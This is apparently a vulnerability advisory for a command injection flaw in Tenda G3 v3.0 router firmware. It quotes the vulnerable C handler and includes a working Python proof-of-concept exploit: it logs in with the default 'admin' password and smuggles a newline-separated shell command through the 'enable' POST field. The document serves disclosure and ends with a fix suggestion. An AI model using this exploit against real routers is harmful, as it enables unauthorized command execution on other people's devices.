 **First of all, you can see more detailed demonstration effects in exp.mkv**

## Affected Version
* <=Tenda-G3v3.0 V15.11.0.20

## Vulnerability Description
Tenda-G3v3.0 V15.11.0.20  was discovered to contain command injection  at url **/goform/setDebugCfg**

## Vulnerability Details
In the function **formSetDebugCfg**, there is the following code, the value of **enable,level,module** comes from the user's post request.
```c
pEnable = websGetVar(wp, "enable", "2");
pLevel = websGetVar(wp, "level", "2");
pModule = websGetVar(wp, "module", "httpd");
sprintf(
    (char *)cmd,
    "echo enable=%s level=%s > /var/debug/%s",
    (const char *)pEnable,
    (const char *)pLevel,
    (const char *)pModule);
  system((const char *)cmd);
```

Because there is **no filtering**, and the values ​​of **enable, level, and module** come from the user's post request, it is easy to cause a **command injection** vulnerability.

## exp
It should be noted that you need to login before accessing /goform/setDebugCfg, so you need to login before posting the request.

```python
import requests

session = requests.Session()


login_url = "http://192.168.0.252/login/Auth"
headers = {
    "Host": "192.168.0.252",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8",
    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding": "gzip, deflate, br",
    "Content-Type": "application/x-www-form-urlencoded",
    "Origin": "http://192.168.0.252",
    "Connection": "close",
    "Referer": "http://192.168.0.252/login.asp",
    "Cookie": "_:USERNAME:_=; G3v3_user=",
    "Upgrade-Insecure-Requests": "1",
    "Priority": "u=0, i"
}

login_data = {
    "password": "YWRtaW4="  # base64 encoded 'admin'
}

response = session.post(login_url, headers=headers, data=login_data)
print(response.text)

# formSetDebugCfg
url = "http://192.168.0.252/goform/setDebugCfg"
data = {"enable": "\necho PWN!!! > /webroot/helpData.html\n"}
response = session.post(url, data=data)


print(response.text)
```

## Any suggested solutions to fix
**Reasonably filter the values ​​of the three variables enable, level, and module from the user's post request**
